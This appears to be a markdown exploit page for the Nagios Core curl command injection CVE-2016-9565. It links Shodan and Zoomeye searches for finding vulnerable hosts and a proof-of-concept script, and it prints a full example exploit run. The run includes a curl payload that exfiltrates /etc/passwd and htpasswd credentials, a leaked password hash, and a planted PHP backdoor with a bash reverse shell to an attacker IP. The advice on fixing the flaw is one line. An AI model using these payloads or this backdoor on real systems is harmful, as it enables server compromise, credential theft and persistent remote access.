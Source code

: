 ```yaml
---
title: Nagios Exploit Command Injection CVE-2016-9565
date: 2016-12-14 17:17:16
tags: Command Injection
---
```


### 0x01 VULNERABILITY effect
```
Both of the Nagios Core stable branches 3.x and 4.x are affected
Nagios Core < 4.2.2        Curl Command Injection / Code Execution
```

### 0x02 WebSite

[Nagios Core](https://www.nagios.org)

### 0x03 Search Target
[Zoomeye](https://www.zoomeye.org/search?t=host&q=Nagios+Core)  Total results: 252

[Shodan](https://www.shodan.io/search?query=Nagios+Core)    Total results: 36
### 0x04 POC
[nagios_cmd_injection.py](https://gist.github.com/xl7dev/bf2f2f91ecee6fbe0675fd59492bef20)

[Video POC](
https://legalhackers.com/videos/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html)

**Usage**
```
Example exploit run
~~~~~~~~~~~~~~~~~~~~~

root@xenial:~/nagios-exploit# ./nagios_cmd_injection.py 192.168.57.3

Nagios Core < 4.2.0 Curl Command Injection PoC Exploit (CVE-2016-9565)
nagios_cmd_injection.py  ver. 1.0

Discovered & Coded by:

 Dawid Golunski
 https://legalhackers.com

[+] Generating SSL certificate for our python HTTPS web server 

[+] Starting the web server on ports 80 & 443 

[+] Web server ready for connection from Nagios (http://target-svr/nagios/rss-corefeed.php). Time for your dnsspoof magic... ;)

[+] Received GET request from Nagios server (192.168.57.4) ! Sending redirect to inject our curl payload:

-Fpasswd=@/etc/passwd -Fgroup=@/etc/group -Fhtauth=@/usr/local/nagios/etc/htpasswd.users --trace-ascii /usr/local/nagios/share/nagios-backdoor.php

[+] Success, curl payload injected! Received data back from the Nagios server 192.168.57.4

[*] Contents of /etc/passwd file from the target:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
nagios:x:1001:1001::/home/nagios:/bin/sh
[..cut..]

[*] Contents of /usr/local/nagios/etc/htpasswd.users file:

nagiosadmin:$apr1$buzCfFb$GjV/ga6PHp53qePf0

[*] Retrieved nagios group line from /etc/group file on the target: nagios:x:1001:www-data

[+] Happy days, 'www-data' user belongs to 'nagios' group! (meaning writable webroot)

[*] Feed XML with JS payload returned to the client in the response. This should load nagios-backdoor.php in no time :) 

[+] PHP backdoor should have been saved in /usr/local/nagios/share/nagios-backdoor.php on the target by now!

[*] Spawning netcat and waiting for the nagios shell (remember you can escalate to root via CVE-2016-9566 :)

Listening on [0.0.0.0] (family 0, port 8080)
Connection from [192.168.57.4] port 8080 [tcp/http-alt] accepted (family 2, sport 38718)

www-data@debjessie:/usr/local/nagios/share$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(nagios),1002(nagcmd)

www-data@debjessie:/usr/local/nagios/share$ groups
groups
www-data nagios nagcmd

www-data@debjessie:/usr/local/nagios/share$ cat nagios-backdoor.php
[..cut..]
== Info: Server <?php system("/bin/bash -c 'nohup bash -i >/dev/tcp/192.168.57.3/8080 0<&1 2>&1 &'"); die("stop processing"); ?> is not blacklisted
[..cut..]
www-data@debjessie:/usr/local/nagios/share$ ls -ld .
ls -ld .
drwxrwsr-x 16 nagios nagios 4096 Dec  9 20:00 .

www-data@debjessie:/usr/local/nagios/share$ exit
exit
exit

[+] Shell closed

[+] That's all. Exiting

```

### 0x04 Fix Bug
Update to the latest Nagios Core release.

### 0x05 From

    https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html